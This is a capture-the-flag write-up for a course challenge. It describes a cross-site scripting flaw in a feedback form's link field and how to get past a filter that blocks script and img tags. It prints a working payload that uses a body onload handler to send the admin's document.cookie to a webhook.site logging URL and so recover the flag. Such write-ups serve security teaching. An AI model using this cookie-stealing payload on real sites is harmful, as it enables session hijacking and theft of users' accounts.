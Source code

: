 # Challenge `Give me more than a simple WAF` writeup

- Vulnerability: What type of vulnerability is being exploited
  - _Cross-site scripting (XSS)_
- Where: Where is the vulnerability present
  - _Feedback form (link for bug/feature request field)_
- Impact: What results of exploiting this vulnerability
  - _Allows to run arbitrary JavaScript code in the victim's browser by injecting crafted payloads in the link field of the feedback form, making it possible to redirect the victim's cookies to a controlled server_

NOTE: Knowing that the admin is curious about all feedback received and will probably open the link referenced as the source of the feedback, it is possible to craft a payload that redirects the victim's cookies to a controlled server.
This can be done by setting up a server that listens for incoming requests and logs them. The server was set using `Webhook.site` at `https://webhook.site/c4fb7495-1912-4963-afd0-93a0676c6909`.
However, the feedback form is protected, forbidding the use of both `script` and `img` tags, and some variations of them. This can be bypassed by using primitives such as `onload` or `onerror` to execute JavaScript code.

## Steps to reproduce

1. Access the vulnerable application homepage at `/` endpoint.
2. Inject the following payload in the link field of the feedback form: 
```html
http://mustard.stt.rnl.tecnico.ulisboa.pt:23252/?search=<body onload=window.open("https://webhook.site/c4fb7495-1912-4963-afd0-93a0676c6909/?cookie="%2Bdocument.cookie)>
```

3. Submit the feedback request and when the admin opens the link present in the feedback form, the script will be executed in his browser, redirecting his cookies to the controlled server and logging them under the `cookie` query parameter in the server's dashboard. The flag is available at the cookie value of the `SECRET` cookie.